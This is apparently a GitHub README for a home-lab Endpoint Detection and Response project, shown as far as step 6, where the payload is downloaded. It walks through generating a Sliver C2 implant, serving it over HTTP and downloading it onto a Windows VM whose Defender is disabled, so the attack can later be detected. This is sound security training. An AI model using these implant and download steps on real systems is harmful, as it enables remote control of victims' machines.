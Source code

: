 <h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attack is monitored, detected and blocked using the Endpoint Detection and Response agent
called LimaCharlie.Through LimaCharlie, simulated attacks are detected and blocked using detection/block rules.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack Monitor & Detection</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
